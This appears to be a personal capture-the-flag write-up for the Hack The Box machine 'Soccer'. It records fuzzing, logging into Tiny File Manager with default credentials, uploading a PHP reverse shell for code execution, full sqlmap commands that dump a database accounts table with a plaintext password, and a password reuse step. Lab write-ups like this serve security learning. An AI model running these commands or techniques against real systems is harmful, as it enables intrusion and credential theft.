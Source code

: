 # Soccer

### Findings so far are:

1.http://soccer.htb/
  This findings is added to the /etc/hosts file and allows navigation to the site via the host-name
  ``` $IP soccer.htb ```

1.1 fuff scan of the website found directory `/tiny`
  1.1a The directory is seen to be a file manager
       Inspecting the source code shows the filemanager is `Tiny File Manager 2.4.3`
       Online search show Authenticated RCE possible via file arbitrary file upload to the upload directory
       Online search also shows defualt credentials `admin:admin@123`

1.2 The upload function results in RCE via uploading php reverse shell in the uploads directory GUI 
  1.2a The looking around the host shows a user player which is not accessible
  1.2b Looking around also shows vhost in the /etc/hosts file: `soc-player.soccer.htb`

2.soc-player.soccer.htb shows a page `soc-player.soccer.htb/check` upon login 
   2.1 Inspection of the page source code shows ws url `ws://soc-player.soccer.htb:9091`
   

[STUCK]

3.SqlMap needed to enumerate datbase on the server
  3.1 `sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3`
  3.2 `sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10` Yields databases:
  ```sh
  available databases [5]:
  [*] information_schema
  [*] mysql
  [*] performance_schema
  [*] soccer_db
  [*] sys
  ```
  3.3 `sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10` shows table: accounts
  ```sh
  Database: soccer_db
  [1 table]
  +----------+
  | accounts |
  +----------+
  
  ```
  3.4 `sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10`
  ```
  Database: soccer_db
  Table: accounts
  [1 entry]
  +------+-------------------+----------------------+----------+
  | id   | email             | password             | username |
  +------+-------------------+----------------------+----------+
  | 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
  +------+-------------------+----------------------+----------+  
  ```

4. Password reuse detected, `player@player.htb` password was reused on the player user
  4.1 \[S\]witch \[U\]ser `su player`
  4.2 navigating to home directory yeilds: user flag `user.txt`

x.nginx/1.18.0 (Ubuntu)
  Server version disclosure

#### Actions done so far:
- [x] Nmap scan
- [x] fuff fuzzing
- [x] Manual inspection of soccer.htb
- [x] Manual inspection of soccer.htb/tiny
- [ ] Exploit search for Tiny file manager 2.4.3
    - [x] exploitdb search
    - [x] Google search
    - [ ] Metasploit search
- [ ] SqlMap Websocket url
